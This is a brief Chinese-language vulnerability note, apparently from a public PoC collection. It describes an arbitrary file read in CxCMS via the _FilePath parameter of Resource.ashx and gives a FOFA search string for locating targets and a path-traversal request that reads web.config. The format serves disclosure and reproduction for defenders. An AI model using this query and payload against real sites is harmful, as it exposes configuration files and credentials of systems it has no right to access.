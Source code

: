 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## FOFA

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"

![image-20220518144245685](./images/202205181442728.png)

验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![image-20220518144331101](./images/202205181443193.png)